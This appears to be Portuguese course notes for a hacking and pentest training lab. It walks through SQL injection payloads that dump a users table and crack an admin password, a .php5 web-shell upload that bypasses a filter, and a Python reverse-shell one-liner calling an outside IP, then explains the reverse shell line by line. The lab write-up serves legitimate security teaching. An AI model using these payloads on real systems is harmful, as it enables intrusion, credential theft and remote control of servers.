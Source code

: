 # Introdução ao Hacking e Pentest

Estas são as anotações das partes práticas do curso [Introdução ao Hacking e Pentest](https://solyd.com.br/ead/course/introducao-ao-hacking-e-pentest/) oferecido pela Solyd. Todos os passos são executados no site desenvolvido exclusivamente para isso: http://www.bancocn.com.

## Exploração

Nesta etapa o mais importante que temos a descobrir é:
- Se usarmos <code>'</code> como id no URL, recebemos um erro de sintaxe do SQL, então podemos tentar explorar vulnerabilidades do SQL;
- Pelo arquivo /robots.txt, descobrimos a existência da página /admin.

## SQL Injection

Vamos descobrir quantas colunas tem usando o comando SQL ORDER BY Keyword, ele é usado para ordenar os resultados em ordem ascendente ou descendente de acordo com os valores de determinada coluna.
Então por exemplo se queremos ordenar o resultado o resultado pelos valores da coluna 1 e comentar o que viria depois do código usando --, então vamos passar <code>1 ORDER BY 1--</code>. Vamos inserir os comandos sempre após <code>www.bancocn.com/cat.php?id=</code>.
<pre> 
1 ORDER BY 1-- :ok
1 ORDER BY 2-- :ok
1 ORDER BY 3-- :ok
1 ORDER BY 4-- : Unknown column '4' in 'order clause'
</pre>

Então agora sabemos que temos 3 colunas. O comando UNION é usado para combinar o resultados de múltiplos SELECTS, então vamos adicionar uma linha ao resultado.  Vai ser adicionado no final do resultado, mas ele lê o primeiro resultado, então vamos usar o sinal negativo para inverter a ordem dos resultados, por exemplo: <code>-1 UNION SELECT 1,2,3</code>. Podemos usar então database() para obtermos o nome do banco de dados onde as informações são exibidas na tela: 

<code>-1 UNION SELECT 1,2,database()</code>.

Com isso sabemos o nome do nosso banco de dados: bancocn. Para sabermos todas tabelas do banco de dados podemos usar: 

<code>-1 UNION SELECT 1,2, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema="bancocn"</code>

Basicamente, estamos inserindo uma linha onde as duas primeiras colunas são 1 e 2 respectivamente, e o terceiro que é o que será exibido na tela, então concatenamos o resultado, que é a busca na tabela tables no banco de dados information_schema que pertence ao banco de dados bancocn, de acordo com o valor na coluna table_schema.

Obtemos agora os nomes das tabelas do nosso banco de dados: categories,pictures,stats,users. Então com os nomes das tabelas escolhemos ver melhor a tabela users, usando um código parecido:

<code>-1 UNION SELECT 1,2, GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="bancocn" AND table_name="users"</code>

As colunas são: id,login,password. Então agora olhamos a tabela das colunas e olhamos onde o banco de dados é bancocn e a tabela é users.

Então podemos agora simplesmente exibir, o login senha:
- <code>-1 UNION SELECT 1,2, login FROM bancocn.users</code>
- <code>-1 UNION SELECT 1,2, password FROM bancocn.users</code>

Obtemos então o usuário (admin) e a senha (7b71be0e85318117d2e514ce2a2e222c).

Testamos uma criptografia padrão (MD5), usando o [MD5 Decrypter](https://www.md5online.org/) desciptografamos a senha (senhafoda) e conseguimos acesso ao painel de admin descoberto anteriormente.

## Shell reversa

Olhando a estrutura dos endereços das imagens carregadas, podemos acessar o diretório dos arquivos /admin/uploads. Lá podemos então abrir um arquivo com extensão php que enviaremos ao servidor.

Aproveitando que possui um filtro de extensões que barra arquivos .php, mas permite .php5, vamos carregar um arquivo PHP5 (terminal.php5) que recebe comandos e os executa no terminal.  Por exemplo para rodar um <code>ls </code> poderíamos usar:
<code>?comando=ls</code>, então o endereço de forma completa ficaria <code>/admin/uploads/terminal.php5?comando=ls</code>.

O que queremos rodar no terminal, é uma shell reversa, uma versão em python pode ser retirada do [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

<code>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("179.189.157.42",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' </code>

Substituimos o IP pelo endereço da nossa máquina, que pode ser visto em [What is my IP](https://whatismyip.com.br/) por exemplo. Agora podemos utilizar o netcat ([versão para Windows](https://eternallybored.org/misc/netcat/) disponibilizado por Jernej Simoncic) para enviar comandos para nossa máquina.

Neste ponto, invadimos o servidor web.

# Bônus: construindo a Shell Reversa

Vamos olhar trecho a trecho o código em python que passamos em uma linha para rodar nossa shell reversa. Criamos um script python chamado [clienteTCP](https://github.com/SapoGitHub/Repositorio-Geral/blob/master/Introdu%C3%A7%C3%A3o%20ao%20Hacking%20e%20Pentest/clienteTCP.py) melhor comentado para esta tarefa.

Primeiro, soquete é o ponto-final de um fluxo de comunicação entre 2 aplicativos através da rede. Portanto para 2 aplicativos temos 2 pontos finais, chamados normalmente de
- Servidor: considerado a máquina 'principal', ela envia os comandos ;
- Cliente: responsável por se conectar no servidor e receber e executa comandos.

Queremos então criarmos um cliente para rodar em nossa máquina. Para isso precisamos definir algumas coisas:
- A representação do endereço (Família de protocolo): Usamos o AF_INET (domínio da internet) é uma família de endereços onde usamos um par de valores: (servidor, porta), onde:
	- servidor: é um hostname de um domínio de internet (daring.cwi.nl) ou um endereço IP;
	- porta: um inteiro.
- Tipo: especifica a semântica da comunicação e usamos o SOCK_STREAM que fornece uma conexão sequencial, confiável e bidirecional. Ela indica que nosso soquete vai ser do tipo TCP.

Definido o protocolo que vamos utilizar para o envio de informações e como vamos representar o endereço, podemos então fornecer o IP e porta para se conectar ao nosso servidor.

```
soquete=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  #Configura o socket
soquete.connect(("127.0.0.1",6666))                       #Conecta em nosso servidor
```

O próximo passo é lidarmos com os descritores de arquivos, isto é um indicador abstrato para acessar um arquivo. Cada processo Unix tem três descritores de arquivos padrões, representados por inteiros:
- 0: Entrada padrão;
- 1: Saída padrão;
- 2: Erro padrão.

Então o nosso próximo passo, é pegarmos o descritor de arquivo do soquete, fazemos isso com o comando:

<code>das=soquete.fileno()                                        #Retorna o descritor do soquete</code>

E fazermos os descritores de arquivo padrões indicarem para o mesmo lugar, ou seja, o soquete:
```
os.dup2(das,0)						#Duplica o descritor 'das' para 0                                    
os.dup2(das,1)						#Duplica o descritor 'das' para 1
os.dup2(das,2)						#Duplica o descritor 'das' para 2
```

Agora então, as entradas e saídas de nosso processo serão recebidas e enviadas através do nosso soquete, ou seja a comunicação é feita com nosso servidor. Por fim, nos falta executar de fato a shell(<code>/bin/sh</code>) apenas:

<code>subprocess.call(["/bin/sh"])			#Executamos a shell</code>

Ainda podemos usar o argumento <code>-i</code> para forar a shell a rodar de interativo. Nesse caso usaríamos <code>subprocess.call(["/bin/sh","-i"])</code>. 
